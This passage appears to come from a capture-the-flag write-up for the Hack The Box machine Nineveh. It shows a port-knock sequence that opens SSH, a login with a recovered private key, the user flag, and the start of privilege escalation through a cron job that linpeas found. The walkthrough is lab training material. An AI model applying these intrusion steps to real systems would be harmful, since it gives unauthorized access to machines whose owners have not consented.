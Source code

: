 Basically, if we send a SYN request to the three specified ports (571, 290, 911) within 5 seconds of each other - then port 22 will open for our specific IP address. This can be accomplished a lot of ways - for example, manually scripting and using tools such as nmap. However, the `knock` program is far easier - but does require an `apt` install on Kali.

To start, copy the private key to a file, in my case named `id_rsa`. Then set the correct permissions to the file. Perform a port knock to open the SSH port 22.

```none
touch id_rsa
chmod 600 id_rsa
sudo knock 10.10.10.43 571 290 911 -d 400
```

Then connect:

```none
└─$ ssh amrois@10.10.10.43 -i id_rsa 
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
```

## Flag: User

With access as the `amrois` user, getting the flag is accessible:

```none
amrois@nineveh:~$ pwd
/home/amrois
amrois@nineveh:~$ wc -c user.txt 
33 user.txt
```

## Privesc: `armois` to `root`

Ran `linpeas` on the target - and got some interesting results. There was a crontab entry that was highlighted and looked interesting.

```none
*/10 * * * * /usr/sbin/report-reset.sh
```
